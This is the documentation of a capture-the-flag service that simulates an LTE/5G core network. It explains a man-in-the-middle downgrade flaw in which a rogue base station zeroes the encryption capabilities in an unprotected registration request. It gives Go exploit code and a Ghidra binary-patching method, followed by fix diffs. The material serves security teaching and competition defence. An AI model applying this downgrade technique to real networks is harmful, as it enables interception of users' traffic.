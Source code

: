 Service documentation
======================

# Vulnerabilities

## Man in the middle attack

*This vulnerability is inspired by security flaws in the LTE (4G) specification found by Rupprecht et al, in the paper: [Putting LTE Security Functions to the Test: A Framework to Evaluate Implementation Correctness](https://www.usenix.org/system/files/conference/woot16/woot16-paper-rupprecht.pdf)*

The registration protocol is vulnerable to a MitM (man in the middle) attack in the `RegistrationRequest` message sent from the UE:

![Protocol MitM attack](mitm.png)

The message is defined in the following `NASRegRequestMsg` struct:

```go
type EaMask uint8

type SecCapType struct {
	// 	1  |  2  | .. |  8
	// EA0 | EA1 | .. | EA7
	EaCap EaMask
	// 	1  |  2  | .. |  8
	// IA0 | IA1 | .. | IA7
	IaCap IaMask
}

type NASRegRequestMsg struct {
	MobileId MobileIdType
	SecCap   SecCapType
}
```
The `SecCap` field is used by the UE to announce which encryption and integrity algorithms it supports. When the core later on sends the `SecurityModeCommand` message, it chooses the highest version of encryption and integrity algorithm from the security capabilities it received in the `NASRegRequestMsg`. 

There is no integrity protection on messages before the `LocationUpdate` message. So when an attacker have control over the gNB serving the UE (by using the gNB binary or writing their own tool), they are able to change any fields of the messages forwarded to the Core and it will be accepted. Changing `SecCap.EaCap` to 0 will disable encryption and the flag can be extracted in clear text from the `LocationUpdate` message.


# Exploits

Both of the following exploits uses the same vulnerability, where `EaCap` is set to 0 by an attacker in the security capabilities announced by the UE.

## Re-use code

Message structs are encoded/decoded to/from bytes using the [gob](https://pkg.go.dev/encoding/gob) library in golang, which are then sent over TCP. An attacker needs to find which bytes that corresponds to the `EaCap` field. One way of doing this without digging through the raw bytes and the gob specification, is reusing code from the original service. This exploit parse bytes from the UE into a struct, change the `EaCap` field to 0 in the struct programmatically in go, encode and forwards the modified message to the Core. Full code for the exploit can be found in the [checker](https://github.com/enowars/enowars7-service-phreaking/blob/e1c7a0522583c0448f78c2c65a6c605be673de28/checker/src/internal/handler/handler.go#L257), but the essence of it given here:

```go
// Receive the raw bytes from UE socket
reply, err := io.Recv(ueConn)
if err != nil {
    return nil, err
}

// Decode NAS header
var gmm nas.GmmHeader
err = parser.DecodeMsg(reply, &gmm)
if err != nil {
    return nil, err
}

// Remove header and decode registration request 
var reg nas.NASRegRequestMsg
err = parser.DecodeMsg(gmm.Message, &reg)
if err != nil {
    return nil, errors.New("cannot decode")
}

// DISABLE EA
reg.SecCap.EaCap = 0

// Encode modified registration request 
msg, err := parser.EncodeMsg(&reg)
if err != nil {
    return nil, err
}

// Add NAS header to the registration request 
gmm.Message = msg

// Add NGAP header 
initUeMsg := ngap.InitUEMessageMsg{NasPdu: gmm, RanUeNgapId: 1}

// Send modified message to Core
err = io.SendNgapMsg(coreConn, ngap.InitUEMessage, &initUeMsg)
if err != nil {
    return nil, err
}
```

## Binary patching

The `gNB` binary can be patched into a exploit tool. 

In the source code of the binary, it creates a new `NASRegRequestMsg` struct and manually copy over the fields from the message to be forwarded:

```go
var reg nas.NASRegRequestMsg
err = parser.DecodeMsg(gmm.Message, &reg)
if err != nil {
	fmt.Printf("Error decoding: %#v\n", err)
	return
}

newreg := nas.NASRegRequestMsg{MobileId: reg.MobileId}
newreg.SecCap.EaCap = reg.SecCap.EaCap
newreg.SecCap.IaCap = reg.SecCap.IaCap

msg, err := parser.EncodeMsg(&newreg)
```

Opening the binary in [Ghidra](https://github.com/NationalSecurityAgency/ghidra) and looking through the assembly code, we can find the copying of fields (instructions at 0050519d and 005051a1 corresponds to setting `EaCap` for `newreg`):

![Assembly of original binary](ghidra_not_patched.png)

Ghidra allows us to patch assembly instructions. Instead of moving the real value into param3 (actually RDX register), we can set RDX to zero by XOR'ing it with itself: 

![Assembly of patched binary](ghidra_patch.png)

This patch will hardcode EaCap to 0 for every forwarded registration request. A patched binary with a working exploit is provided here in the documentation folder as `gnb_patched`.

# Fix

To fix the vulnerability the core needs to apply integrity protection to the SecurityModeCommand message. The UE need to check the integrity of the message and confirm that the replayed security capabilities matches what it sent in the RegistrationRequest message.

A fixed version of the service can be found in the `fixed` branch.

![Fixed protocol](protocol_fixed.png)

Add MAC using integrity algorithm IA2 to security mode command message in the Core:

```diff
--- a/service/src/internal/core/handler.go
+++ b/service/src/internal/core/handler.go
@@ -393,7 +393,7 @@ func (amf *Amf) handleNASAuthResponse(c net.Conn, buf []byte, amfg *AmfGNB, ue *
        secModeCmd := nas.NASSecurityModeCommandMsg{EaAlg: ue.EaAlg,
                IaAlg: ue.IaAlg, ReplaySecCap: ue.SecCap,
        }
-       secModeMsg, mac, err := nas.BuildMessagePlain(&secModeCmd)
+       secModeMsg, mac, err := nas.BuildMessage(0, uint8(nas.IA2), &secModeCmd)
        if err != nil {
                return errDecode
        }
```

The UE checks if the security mode command is integrity protected using ANY integrity algorithm:

*Note: The checker simulates a Core network and will try to connect UE with null encryption, with a valid MAC - which is a feature to be supported by the service. Since a defending team might not know which integrity algorithm the checker uses for the MAC, checking for ANY algorithm might be needed. But can also be deducted by looking at the traffic coming to the service*.

```diff
--- a/service/src/cmd/ue/main.go
+++ b/service/src/cmd/ue/main.go
@@ -87,12 +87,23 @@ func handleConnection(logger *zap.Logger, c net.Conn) {
                                }
                                u.ToState(ue.Authentication)
                        case msgType == nas.NASSecurityModeCommand && u.InState(ue.Authentication):
-                               err := u.HandleNASSecurityModeCommand(c, msgbuf)
-                               if err != nil {
-                                       log.Errorf("Error NASSecurityModeCommand: %w", err)
-                                       return
+                               for i := 1; i <= 5; i++ {
+                                       if i == 5 {
+                                               log.Errorf("Security command not integrity protected")
+                                               return
+                                       }
+                                       err = crypto.CheckIntegrity(uint8(i), msgbuf, gmm.Mac)
+                                       if err != nil {
+                                       } else {
+                                               err := u.HandleNASSecurityModeCommand(c, msgbuf)
+                                               if err != nil {
+                                                       log.Errorf("Error NASSecurityModeCommand: %w", err)
+                                                       return
+                                               }
+                                               u.ToState(ue.SecurityMode)
+                                               break
+                                       }
                                }
-                               u.ToState(ue.SecurityMode)
                        case msgType == nas.PDUSessionEstAccept && u.InState(ue.SecurityMode):
                                err := u.HandlePDUSessionEstAccept(c, msgbuf)
                                if err != nil {
```

After the UE checks that the MAC is valid, it must also check that the replayed security capabilities from the Core match what the UE sent out with the registration request:

```diff
--- a/service/src/internal/ue/handler.go
+++ b/service/src/internal/ue/handler.go
@@ -8,6 +8,8 @@ import (
        "phreaking/internal/io"
        "phreaking/pkg/nas"
        "phreaking/pkg/parser"
+
+       "github.com/google/go-cmp/cmp"
 )

 var (
@@ -54,6 +56,10 @@ func (u *UE) HandleNASSecurityModeCommand(c net.Conn, msgbuf []byte) error {
                return errors.New("cannot decode")
        }

+       if !cmp.Equal(msg.ReplaySecCap, u.SecCap) {
+               return errors.New("replayed security capabilities does not match")
+       }
+
        u.EaAlg = msg.EaAlg
        u.IaAlg = msg.IaAlg
```
